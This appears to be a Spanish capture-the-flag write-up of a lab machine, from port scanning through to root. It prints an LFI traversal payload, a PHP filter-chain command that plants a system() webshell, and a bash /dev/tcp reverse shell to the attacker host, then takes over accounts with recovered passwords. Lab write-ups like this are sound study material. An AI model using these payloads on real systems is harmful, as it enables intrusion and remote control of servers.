Comenzamos enviando traza _ICMP_ para verificar que la máquina nos responde e identificar _TTL_ (TimeToLive):

```bash
ping -c 1 172.17.0.2
```


Podemos ver que tiene un TTL de 64, por lo tanto estamos ante una maquina _Linux_.

Procederemos con el reconocimiento inicial:
```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 172.17.0.2 -oG allPorts
```
El escaneo de puertos revela un único servicio expuesto:
_22_: SSH
_80_: HTTP (servicio web)

Dado que este es el único puerto accesible desde el exterior, podemos inferir que el vector de ataque principal se encuentra en la **aplicación web**, por lo que la explotación se realizará a través de dicho servicio.

A continuación, se realiza un escaneo más exhaustivo con el objetivo de **enumerar servicios y versiones**, haciendo uso de scripts de reconocimiento para obtener información adicional del sistema:

```bash
nmap -p80 -sCV 172.17.0.2 -oN targeted
```

Lo que nos devuelve los siguientes resultados:



Procedemos a acceder al servicio web detectado durante el reconocimiento, observando la página por defecto de **Apache**, lo que nos confirma que el servidor HTTP se encuentra activo y correctamente configurado.

Se procede a realizar un descubrimiento de directorios utilizando la herramienta **gobuster**, añadiendo las extensiones `php`, `html` y `txt` para ampliar la superficie de búsqueda. El comando empleado es el siguiente:

```bash
gobuster dir -u http://172.17.0.2/ -w ../../../../../Escritorio/wordlists/directory-list-medium -x php,html,txt
```

Como resultado de la enumeración, se identifican los siguientes recursos accesibles:



Al acceder a `problems.php`, se observa que el servidor devuelve nuevamente la página por defecto de Apache, lo que sugiere que el recurso podría requerir parámetros específicos para mostrar contenido dinámico.



Se realizara un **fuzzing de parámetros** con el objetivo de identificar variables GET potencialmente procesadas por el servidor. Para ello, utilizamos el siguiente comando:

```bash
ffuf -c -u http://172.17.0.2/problems.php?FUZZ=1 -w ../../../../Escritorio/wordlists/directory-list-big --fl 364
```

Podemos contemplar el siguiente resultado:



En este punto, se considera viable intentar explotar un **Local File Inclusion (LFI)**, por lo que se prueba el payload clásico `../../../../../../../etc/passwd` con el objetivo de verificar si el servidor permite la lectura de archivos locales.

Como resultado, se obtiene el contenido del archivo `/etc/passwd`, confirmando la existencia de la vulnerabilidad _LFI_:



Dado que se confirmó la existencia de un **LFI**, se evaluó la posibilidad de realizar un **Log Poisoning**, intentando inyectar código PHP en los logs del servidor para posteriormente incluirlos mediante la vulnerabilidad.

Sin embargo, en este caso no fue posible explotar esta técnica, ya sea por restricciones en los permisos de los logs o por limitaciones en la inclusión de archivos.

Tras descartar la técnica de Log Poisoning, se procede a evaluar si el parámetro vulnerable permite el uso de **wrappers de PHP**, lo que podría permitir la lectura o ejecución indirecta de código.

Para ello, se realiza una prueba utilizando el wrapper `php://filter`, con el objetivo de comprobar si el servidor procesa este tipo de esquemas. Este es el payload a utilizar:

```
php://filter/convert.base64-encode/resource=problems.php
```
Si el servidor devuelve el contenido del archivo codificado en **base64**, se confirma que el parámetro vulnerable interpreta correctamente los wrappers de PHP, lo que habilita la posibilidad de construir una _filter chain_ más compleja para lograr ejecución de código.



Al confirmar que el servidor interpreta correctamente los wrappers de PHP, se procede a generar un payload que permita ejecutar comandos en el sistema.

Para ello, se utiliza la herramienta **php_filter_chain_generator**, disponible en el siguiente repositorio:
https://github.com/synacktiv/php_filter_chain_generator

Esta herramienta permite generar automáticamente una _filter chain_ especialmente diseñada para inyectar código PHP a través de la vulnerabilidad LFI. 
El comando empleado para generar la cadena es el siguiente:

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
```

Como resultado, se obtiene una cadena extensa que deberá insertarse en el parámetro vulnerable para lograr la ejecución remota de comandos:



Tras insertar la _filter chain_ generada en el parámetro vulnerable, se logra **ejecución remota de comandos (RCE)**.
A continuación, se procede a obtener una **reverse shell**, colocando la máquina atacante en escucha por el puerto 4444 mediante `netcat`:

```
nc -lvnp 4444
```

Posteriormente, se envía el siguiente payload desde el parámetro vulnerable para establecer la conexión inversa:

```
bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"
```

Como resultado, se recibe la conexión en la máquina atacante, obteniendo acceso interactivo al sistema.

---
Una vez obtenida la _Reverse Shell_, realizaremos un tratamiento de la _TTY_ con el fin de obtener una shell totalmente interactiva:

```bash
script /dev/null -c bash
```

A continuación, se envía la shell a segundo plano utilizando la combinación de teclas **Ctrl + Z**.

```bash
stty raw -echo;fg
reset xterm
export TERM=xterm
stty rows 40 columns 155
```

Ya dentro del sistema como el usuario `www-data`, el siguiente paso es la **escalada de privilegios**.

---
Si vemos los archivos dentro del directorio _/var/www/html_, contemplamos el archivo `antiguo_y_fuerte.txt`:



El cual tiene el siguiente contenido:

```
Es imposible que me acuerde de la pass es inhackeable pero se que la tenpo en el mismo fichero desde fa 24 anys. trobala buscala 

soy el unico user del sistema. 
```

El mensaje indica que la contraseña se encuentra almacenada en el mismo archivo desde hace _“fa 24 anys”_, expresión en catalán que significa _“hace 24 años”_.

Teniendo en cuenta el contexto temporal, se procede a buscar archivos cuya fecha de creación o modificación corresponda aproximadamente a un rango entre 1999 y 2003, con el siguiente comando:

```bash
find / -type f -newermt "1999-01-01" ! -newermt "2002-12-31" 2>/dev/null
```

Lo que nos devuelve el siguiente archivo:



Tras revisar el archivo identificado, se observa que contiene la siguiente cadena:

`pinguinochocolatero`

Dado que el mensaje indicaba que existe un único usuario en el sistema, se procede a listar los usuarios locales para identificar cuál podría ser válido.

Tras identificar al usuario `carlos`, se intenta la autenticación utilizando la cadena encontrada como contraseña:

`su carlos`

Al introducir la contraseña, se obtiene acceso exitoso al usuario `carlos`.

---
Una vez autenticados como `carlos`, se procede a enumerar el contenido del directorio `/home/carlos`, donde se observan múltiples carpetas numeradas (del 1 al 100).



Con el objetivo de inspeccionar rápidamente el contenido de cada una, se utiliza el siguiente comando en Bash:

```bash
for i in {1..100}; do ls -la carpeta$i/; echo carpeta$i; done
```

Tras revisar el contenido de las carpetas, se observa que todas se encuentran vacías, con excepción de una, la cual contiene una imagen.



Dado que es el único archivo relevante encontrado, se decide analizarlo en mayor profundidad. Para ello, se transfiere el archivo a la máquina atacante.

Desde la máquina víctima, se levanta un servidor HTTP simple con Python:

```bash
python3 -m http.server 8080
```

Posteriormente, desde la máquina atacante, se descarga el archivo mediante:

```bash
wget http://172.17.0.2:8080/carpeta55/.toor.jpg
```

Una vez obtenido el archivo en el entorno del atacante, se procede a analizar la imagen utilizando herramientas de análisis forense disponibles localmente.



Al analizar la _metadata_ de la imagen utilizando la herramienta **exiftool**, se observa un valor inusual en el campo **Image Quality**, el cual contiene la cadena:

`pingui1730`

Este valor resulta sospechoso, ya que no corresponde a un parámetro típico de calidad de imagen, por lo que podría tratarse de información oculta o una posible credencial.



Se procede a probar la cadena `pingui1730` como posible credencial del usuario **root**.

```bash
su root
```

Al introducir la contraseña identificada en la metadata, se obtiene acceso exitoso como **root**, completando así la escalada de privilegios.



---
**Conclusión**

En esta máquina se logró la explotación de un **Local File Inclusion (LFI)** que, mediante el uso de **wrappers de PHP** y la herramienta **php_filter_chain_generator**, permitió obtener ejecución remota de comandos.

Posteriormente, a través de una correcta enumeración del sistema, se identificó información sensible oculta en la _metadata_ de una imagen, lo que condujo a la obtención de credenciales privilegiadas y al acceso final como **root**.

Esta máquina pone en evidencia la importancia de:

- Validar correctamente la inclusión de archivos en aplicaciones web.
    
- Restringir el uso de wrappers en entornos PHP.
    
- No almacenar información sensible en metadata de archivos.
    
- Realizar una enumeración exhaustiva durante la post-explotación.
